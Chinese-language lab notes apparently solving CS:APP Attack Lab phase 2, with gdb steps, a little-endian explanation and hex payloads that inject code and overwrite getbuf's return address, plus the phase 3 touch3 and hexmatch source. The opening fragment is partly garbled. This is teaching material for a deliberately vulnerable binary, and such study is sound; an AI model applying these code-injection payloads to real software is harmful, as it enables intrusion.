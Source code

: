 ```cpp
c3

上面这一段代码执行完之后会跳转到 0x4017ec
为了执行上面这段代码，要按照level1的方法
把getbuf函数的返回地址设置为这段代码的开头

gdb *0x40017ac
b getbuf
r -q
info r rsp
可以看到执行该函数时%rsp的值是
0x5561dc78
关于小端序
高字节数据会放到低地址，也就是前面的十六进制会放到低地址
而程序的执行是从低地址到高地址

所以答案
bf e2 2c 20 00 81 c7 02 
18 40 00 67 8b 3f 68 ec 
17 40 00 c3 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00

或者汇编指令/寄存器是 movq addq rdi
对应答案:
48 c7 c7 e2 2c 20 00 48 
81 c7 02 18 40 00 48 8b 
3f 68 ec 17 40 00 c3 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
将上面的十六进制数存为level2.txt然后
cat level2.txt | ./hex2raw | ./ctarget -q
```

# phase3 (4.3)

```cpp
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    //把val转换成16进制输出到s(显示8位)
    sprintf(s, "%.8x", val);
    //比较前9位 有一个字符串结束符所以比较8位
    return strncmp(sval, s, 9) == 0;
    
}

void touch3(char *sval){
    vlevel = 3;
    //输入的字符串要跟cookie值相同
    //gdb 但是根据汇编代码 gdb值是6044e4?
    //参数顺序rdi rsi 
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
```